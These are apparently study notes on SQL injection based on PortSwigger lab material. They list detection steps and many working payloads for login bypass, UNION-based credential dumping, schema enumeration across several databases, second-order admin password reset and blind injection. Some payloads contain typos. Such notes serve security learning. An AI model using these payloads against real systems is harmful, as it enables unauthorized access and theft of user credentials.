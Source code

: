 
- What is the impact of a successful SQLi attack?

> A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information. \
Many high-profile data breaches in recent years have been the result of SQL injection attacks, leading to reputational damage and regulatory fines. \
In some cases, an attacker can obtain a persistent backdoor into an organization's systems, leading to a long-term compromise that can go unnoticed for an extended period.

> https://portswigger.net/web-security/sql-injection

# Process
1. Detect
    - -- is comment in SQL
    - Submitting the single quote character ' and looking for errors or other anomalies.
    - Submitting Boolean conditions such as OR 1=1 and OR 1=2, and looking for differences in the application's responses.
2. Exploit
    - Retrieving hidden data
    - Subverting application logic, Login
    - UNION Attack, Retrieving data from other database tables,
    - Examining the database
    - Blind SQLi
    - Second-order SQL injection

# Example
- Retrieving hidden data
    - api       https://insecure-website.com/products?category=Gifts
    - query     SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    - atack
        - https://insecure-website.com/products?category=Gifts'--
        - https://insecure-website.com/products?category=Gifts' OR 1=1--
        - https://insecure-website.com/products?category=Gifts'
- Subverting application logic
    - query     SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    - attack    admin'--
- UNION Attack
    - What is:
        - SELECT a, b FROM table1 UNION SELECT c, d FROM table2
    - api       https://insecure-website.com/products?category=Gifts
    - query     SELECT name, description FROM products WHERE category = 'Gifts' AND released = 1
    - atack
        - https://insecure-website.com/products?category=Gifts' UNION select username, password from users--
    - SQL injection UNION attack, determining the number of columns returned by the query
        - https://insecure-website.com/products?category=Gifts'ORDER BY 1--
        - https://insecure-website.com/products?category=Gifts'ORDER BY 2--
        - https://insecure-website.com/products?category=Gifts'ORDER BY 3--
        - https://insecure-website.com/products?category=Gifts'ORDER BY 4-- // Error
        - https://insecure-website.com/products?category=Gifts'UNION SELECT NULL, NULL, NULL
        - https://insecure-website.com/products?category=Gifts'UNION select username, password, NULL from users--
        - https://insecure-website.com/filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+from+users--
    - Oracle
        - dual table    /filter?category=Accessories'+UNION+SELECT+NULL,NULL+FROM+dual-- 
- Examining the database
    - attack
        - SELECT * FROM v$version
        - SELECT * FROM information_schema.tables
            - /filter?category=Gifts'+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables-- #users_numere
            - /filter?category=Gifts'+UNION+SELECT+COLUMN_NAME,NULL+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name+=+'users_numere'-- #username_kjovop,password_avppud
    - Oracle
        - /filter?category=Accessories'+UNION+SELECT+banner,NULL+FROM+v$version+UNION+SELECT+SELECT+version,NULL++FROM+v$instance--
        - GET /filter?category=Pets'+UNION+SELECT+TABLE_NAME,'aaa'+FROM+ALL_TABLES-- HTTP/2
        - GET /filter?category=Pets'+UNION+SELECT+COLUMN_NAME,'aaa'+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME='USERS_FPYMQY'-- HTTP/2
        - GET /filter?category=Pets'+UNION+SELECT+USERNAME_ZCCJRT,PASSWORD_ABIHWU+FROM+USERS_FPYMQY-- HTTP/2
    - MS Sql Server
        - /filter?category=Gifts'+UNION+SELECT+@@version,NULL#
- Second-order SQL injection
    - Create user
        - username: user1'; upsate users set password='123456' where user='admin'--
- Blind SQLi
    - cookie TrackingId=E3jzomp8qokGJ8KN' AND '1'='1